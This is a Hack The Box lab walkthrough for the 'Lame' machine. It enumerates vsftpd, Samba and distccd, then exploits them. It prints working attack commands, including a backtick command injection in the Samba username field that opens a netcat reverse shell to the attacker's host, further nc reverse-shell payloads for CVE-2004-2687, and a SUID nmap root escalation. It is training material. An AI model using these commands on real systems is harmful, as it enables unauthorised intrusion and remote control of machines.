




# \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br>  <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"></a> | </a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Open Services](#open-services)
	- [vsftpd 2.3.4](#vsftpd-234)
	- [Samba smbd 3.0.20-Debian](#samba-smbd-3020-debian)
	- [distccd v1 \((GNU\) 4.2.4](#distccd-v1-gnu-424)
- [Foothold](#foothold)
	- [vsftpd-2.3.4-exploit](#vsftpd-234-exploit)
	- [CVE-2007-2447](#cve-2007-2447)
	- [CVE-2004-2687](#cve-2004-2687)
- [Privilege Escalation](#privilege-escalation)
	- [Binaries That AutoElevate - Nmap](#binaries-that-autoelevate---nmap)
- [Reference](#reference)

<!-- /MarkdownTOC -->

## Information Gathering

### Open Services

+ vsftpd 2.3.4
+ Samba smbd 3.0.20-Debian
+ distccd v1 ((GNU) 4.2.4

``` bash
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.10.3
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 21,22,139,445,3632

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.3 -p21,22,139,445,3632
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-27 15:38 +07
Nmap scan report for 10.10.10.3
Host is up (0.26s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m51s, deviation: 2h49m45s, median: 1m49s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-04-27T04:40:35-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.01 seconds
```

### vsftpd 2.3.4

Login to ftp server using anonymous credential and got empty folder.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> quit
221 Goodbye.
```

Search public exploit for `vsftpd 2.3.4`, there are an backdoor may can used for execute code.

```
┌──(Hades㉿10.10.14.4)-[2.7:16.6]~
└─$ searchsploit vsftpd 2.3.4
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Met | unix/remote/17491.rb
----------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Samba smbd 3.0.20-Debian

Samba Server allows access to folder `tmp` with `READ, WRITE` permission.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.10.3

[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
smbclient -L 10.10.10.3
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Access to folder `tmp` using `smbclient` but the server disconnect this session.

```
┌──(Hades㉿10.10.14.5)-[0.9:13.9]~
└─$ smbclient //10.10.10.3/tmp
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Search public exploit for `Samba 3.0.20`, there are exploit execute command at Username in Samba Server.

```
┌──(Hades㉿10.10.14.5)-[0.7:13.5]~/walkthrough/hackthebox/lame
└─$ searchsploit Samba 3.0.20
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
<snip>
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Ex | unix/remote/16320.rb
<snip>
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### distccd v1 ((GNU) 4.2.4

Follow [3632 - Pentesting distcc](https://book.hacktricks.xyz/pentesting/3632-pentesting-distcc), Go to check if it's vulnerable to CVE-2004-2687 to execute arbitrary code

```
┌──(Hades㉿10.10.14.5)-[0.7:13.9]~
└─$ sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687
<snip>
PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
<snip>
```

## Foothold

### vsftpd-2.3.4-exploit

Base on `searchsploit`, we know the vsftpd 2.3.4 might contain a backdoor which has been created by an intruder. The backdoor payload is initiated in response to a :) character combination in the username which represents a smiley face. The code sets up a bind shell listener on port 6200.

Trigger the backdoor and execute command `whoami`

``` bash
┌──(Hades㉿10.10.14.3)-[2.4:20.4]~/walkthrough/hackthebox
└─$ telnet 10.10.10.3 21
<snip>
220 (vsFTPd 2.3.4)
USER hades:)
331 Please specify the password.
PASS leecybersec
```

Using script [vsftpd-2.3.4-exploit.py](https://github.com/ahervias77/vsftpd-2.3.4-exploit)

```
python3 vsftpd-2.3.4-exploit.py 10.10.10.3 21 whoami
```

Check open port: 6200

```
nmap -p 6200 10.10.10.3 -Pn
```

Port 6200 is not open, may the developers removed the backdoor.



### CVE-2007-2447

Follow step exploit for <a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>.

Execute command with \` in the username to get reverse shell.

```bash
smbmap -u '/=`nc -e /bin/bash 10.10.14.3 443`' -H 10.10.10.3
```

Using script [samba_rce_CVE-2007-2447.py](https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation)

``` bash
python3 samba_rce_CVE-2007-2447.py 10.10.10.3 'nc -nv 10.10.14.3 443 -e /bin/sh'
```



### CVE-2004-2687

Based on nmap results, using exploit [distccd_rce_CVE-2004-2687.py](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) to get reverse shell in the server.

```bash
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.3 443 -e /bin/sh"
```



## Privilege Escalation

### Binaries That AutoElevate - Nmap

Server conatain command `nmap` allow execute as root

```
daemon@lame:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/nmap
```

Exploit with [GTFOBins nmap](https://gtfobins.github.io/gtfobins/nmap/#shell)

Check nmap version

```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 (http://insecure.org)
```

Execute nmap to get root

```
/bin/sh -i
/usr/bin/nmap --interactive
nmap> !sh
```



## Reference

[https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable)